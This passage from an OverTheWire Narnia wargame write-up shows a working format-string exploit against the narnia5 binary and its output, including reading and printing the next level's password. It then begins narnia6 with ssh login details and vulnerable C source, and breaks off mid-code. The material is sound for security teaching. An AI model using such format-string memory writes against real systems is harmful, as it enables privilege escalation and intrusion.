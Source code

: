     narnia5@gibson:~$ /narnia/narnia5 $(echo -ne "\xb0\xd2\xff\xff")%100x%1\$n
    Change i's value from 1 -> 500. No way...let me give you a hint!
    buffer : [����                                                           ] (63)
    i = 104 (0xffffd2b0)

Here, the address of `i` is being pushed onto the stack, a hexadecimal value with length
of 100 is also placed in the format string, which means that 104 bytes are written so far, 
and the `%1\$n` writes the number of characters printed so far (100) to the memory location 
pointed to by the first argument.

**Note**: `\` is used inside `%1\$n` in order for `$` to be escaped.

So, one can just change 100 to 496 and make `i` equal to 500, as shown below: 

    narnia5@gibson:~$ /narnia/narnia5 $(echo -ne "\xb0\xd2\xff\xff")%496x%1\$n
    Change i's value from 1 -> 500. GOOD
    $ id 
    uid=14006(narnia6) gid=14005(narnia5) groups=14005(narnia5)
    $ cat /etc/narnia_pass/narnia6 
    BNSjoSDeGL

Password: **BNSjoSDeGL**


## narnia6

After connecting to the specific level with `ssh` by typing
    *ssh narnia6@narnia.labs.overthewire.org -p 2226* 
with password 
    *BNSjoSDeGL*

one can find the vulnerable `narnia6` code in the following snippet: 

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>

    extern char **environ;

    // tired of fixing values...
    // - morla
    unsigned long get_sp(void) {
        __asm__("movl %esp,%eax\n\t"
                "and $0xff000000, %eax"
                );
    }

    int main(int argc, char *argv[]){
            char b1[8], b2[8];
            int  (*fp)(char *)=(int(*)(char *))&puts, i;

            if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }

            /* clear environ */
            for(i=0; environ[i] != NULL; i++)
                    memset(environ[i], '\0', strlen(environ[i]));
            /* clear argz    */
            for(i=3; argv[i] != NULL; i++)
                    memset(argv[i], '\0', strlen(argv[i]));


[REF_1]: http://shell-storm.org/shellcode/files/shellcode-607.html
[REF_2]: https://security.stackexchange.com/questions/184842/shellcode-does-not-execute-as-the-owner
[REF_3]: https://nicolagatta.blogspot.com/2019/05/overthewireorg-narnia-level-2-writeup.html